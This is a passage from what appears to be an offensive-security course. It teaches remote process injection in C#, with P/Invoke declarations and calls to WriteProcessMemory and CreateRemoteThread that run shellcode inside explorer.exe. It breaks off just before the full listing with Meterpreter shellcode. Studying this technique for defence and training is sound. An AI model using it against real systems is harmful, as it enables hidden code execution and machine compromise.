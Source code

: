 > Listing 9 - Calling WriteProcessMemory against explorer.exe

We'll observe that the [out keyword](https://docs.microsoft.com/en-us/dotnet/csharp/language-reference/keywords/out-parameter-modifier) was prepended to the _outSize_ variable to have it passed by reference instead of value. This ensures that the argument type aligns with the function prototype. The input buffer (buf) also needs to be a pointer, but this is inherent in the C# array data type.

At this stage, we can execute the shellcode. We'll import _CreateRemoteThread_ with the statement copied from **www.pinvoke.net**:

```
[DllImport("kernel32.dll")]
static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, 
    uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, 
        IntPtr lpThreadId);
```

> Listing 10 - Importing CreateRemoteThread

Once more, we'll inspect the arguments as given in the [function prototype](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) shown below:

```
HANDLE CreateRemoteThread(
  HANDLE                 hProcess,
  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  SIZE_T                 dwStackSize,
  LPTHREAD_START_ROUTINE lpStartAddress,
  LPVOID                 lpParameter,
  DWORD                  dwCreationFlags,
  LPDWORD                lpThreadId
);
```

> Listing 11 - CreateRemoteThread function prototype

This API accepts seven arguments, but we will ignore those that aren't required. The first argument is the process handle to **explorer.exe**, followed by the desired security descriptor of the new thread (_lpThreadAttributes_) and its allowed stack size (_dwStackSize_). We will set these to "0" to accept the default values.

For the fourth argument, _lpStartAddress_, we must specify the starting address of the thread. In our case, it must be equal to the address of the buffer we allocated and copied our shellcode into inside the _explorer.exe_ process. The next argument, _lpParameter_, is a pointer to variables which will be passed to the thread function pointed to by lpStartAddress. Since our shellcode does not need any parameters, we can pass a NULL here.

The remaining two arguments include various flags (_dwCreationFlags_) and an output variable for a thread ID (_lpThreadId_), both of which we will ignore. The call to _CreateRemoteThread_ is shown below.

```
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
```

> Listing 12 - Calling CreateRemoteThread against explorer.exe

Let's review the full code, with the included (abridged) Meterpreter staged shellcode:
